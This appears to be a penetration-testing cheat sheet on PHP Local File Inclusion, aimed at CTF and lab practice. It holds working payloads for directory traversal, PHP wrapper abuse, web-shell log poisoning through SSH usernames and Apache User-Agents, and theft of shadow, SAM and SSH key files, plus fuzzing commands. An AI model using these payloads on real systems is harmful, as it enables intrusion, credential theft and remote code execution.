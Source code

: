 ## LFI Local File Inclusion
### Table of Contents
- [LFI Local File Inclusion](#lfi-local-file-inclusion)
  * [Table of Contents](#table-of-contents)
  * [Introduction](#introduction)
    + [Example:](#example-)
  * [Directory Traversal](#directory-traversal)
    + [Basic Linux Test](#basic-linux-test)
  * [PHP Wrappers](#php-wrappers)
    + [PHP Expect Wrapper](#php-expect-wrapper)
    + [PHP Filter Wrapper](#php-filter-wrapper)
  * [RCE via SSH](#rce-via-ssh)
  * [RCE via Apache logs](#rce-via-apache-logs)
  * [LFI to RCE via credentials files](#lfi-to-rce-via-credentials-files)
    + [Windows version](#windows-version)
    + [Linux version](#linux-version)
  * [Automated LFI with Wfuzz](#automated-lfi-with-wfuzz)
  * [Resources](#resources)
- [Requests to look out for](#requests-to-look-out-for)
  * [Fuzzing for subdomains](#fuzzing-for-subdomains)
  * [Files to grab if you get LFI](#files-to-grab-if-you-get-lfi)

### Introduction
- An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server.
- LFI occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.
- ![lfi](https://user-images.githubusercontent.com/75596877/138767265-ed9d8d7f-38f2-43cf-9622-8d4890f0664e.png)

#### Example:
````
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
````
- In the above example, an attacker could make the following request. It tricks the application into executing a PHP script such as a web shell that the attacker managed to upload to the web server.
````
http://example.com/?file=../../uploads/evil.php
````
### Directory Traversal
- Even without the ability to upload and execute code, a Local File Inclusion vulnerability can be dangerous. 
- An attacker can still perform a Directory Traversal / Path Traversal attack using an LFI vulnerability as follows.
````
http://example.com/?file=../../../../etc/passwd
````
- Testing 
- If you see a webpage URL look like this:
````
/script.php?page=index.html 
````
#### Basic Linux Test
Test for:
````
/script.php?page=../../../../../../../../etc/passwd
````
### PHP Wrappers
- PHP has a number of wrappers that can often be abused to bypass various input filters.
#### PHP Expect Wrapper
- `PHP expect://` allows execution of system commands, unfortunately the expect PHP module is not enabled by default
````
php?page=expect://ls
````
#### PHP Filter Wrapper
`php://filter` allows a pen tester to include local files and base64 encodes the output. Therefore, any base64 output will need to be decoded to reveal the contents.
````
vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd  
````
- `php://filter` can also be used without base64 encoding the output using:
````
?page=php://filter/resource=/etc/passwd
````
### RCE via SSH
- Try to ssh into the box with a PHP code as username <?php system($_GET["cmd"]);?>.
````
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
````
- Then include the SSH log files inside the Web Application.
````
http://example.com/index.php?page=/var/log/auth.log&cmd=id
````
### RCE via Apache logs
- Poison the User-Agent in access logs:
````
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
````
- Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.
- Then request the logs via the LFI and execute your command.
````
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
````
### LFI to RCE via credentials files
- This method require high privileges inside the application in order to read the sensitive files.
#### Windows version
- First extract sam and system files.
````
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
````
- Then extract hashes from these files samdump2 SYSTEM SAM > hashes.txt, and crack them with hashcat/john or replay them using the Pass The Hash technique.
#### Linux version
- First extract /etc/shadow files.
````
http://example.com/index.php?page=../../../../../../etc/shadow
````
- Then crack the hashes inside in order to login via SSH on the machine.
- Another way to gain SSH access to a Linux machine through LFI is by reading the private key file, id_rsa. 
- If SSH is active check which user is being used `/proc/self/status` and `/etc/passwd` and try to access `/<HOME>/.ssh/id_rsa`.
### Automated LFI with Wfuzz
- Automate LFI Tests
- Download the `traversal.txt` file in this folder (from PayloadAllTheThings)
- Test with `wfuzz`
````
wfuzz -u "http://10.10.218.222/article?name=FUZZ" -w traversal.txt | grep 200
````
- `grep 200` for the `Ok` status code
- `w` -> the wordlist
- `?name=FUZZ` -> the parameter you want to fuzz
  ### Resources
- https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-phpinfo
## Requests to look out for
- ![alt text](https://miro.medium.com/max/2400/1*uMZmYUNcqjh4Rht11nGQDw.png)
- We notice the request with a `?` indicating possible LFI but we are not sure the paramater it wants
- Attempt to fuzz the parameter for command injection and file inclusion
- Wordlist to use:
````
traversal.txt
/usr/share/Seclists/Discovery/Web-Content/burp-parameter-names.txt
````
- Use FFuF, or wfuzz
### Fuzzing for subdomains 
````
ffuf -u http://vulnnet.thm -H "Host: FUZZ.vulnnet.thm" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fs 5829
````
- ### Files to grab if you get LFI
````
/etc/passwd
/etc/shadow
/etc/hosts
CMS Config Files
/etc/apache2/.htpasswd
/etc/apache2/apache2.conf
/etc/httpd/httpd.conf
/etc/httpd/conf/httpd.conf
/usr/local/apache2/apache2.conf
C:\Program Files\Apache Software Foundation\Apache2.4\
````
















